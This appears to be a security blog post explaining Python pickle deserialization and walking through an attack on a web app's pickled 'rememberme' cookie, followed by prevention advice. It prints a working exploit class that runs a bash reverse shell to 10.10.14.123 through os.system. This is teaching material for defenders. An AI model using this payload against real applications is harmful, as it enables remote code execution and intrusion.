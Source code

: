 ```yaml
---
layout: post
title: "Deserialization Attack Using Python's Pickle Module"
subtitle: "And a practical use-case"
date: 2022-04-27 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
<br>  
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
<br>  
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
<br>  
![request-burp](/img/posts/serialization-pickle/request.png)
<br>  
How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
<br>  
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
<br>  
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
<br>  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
<br>  
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
<br>  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
<br>  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.
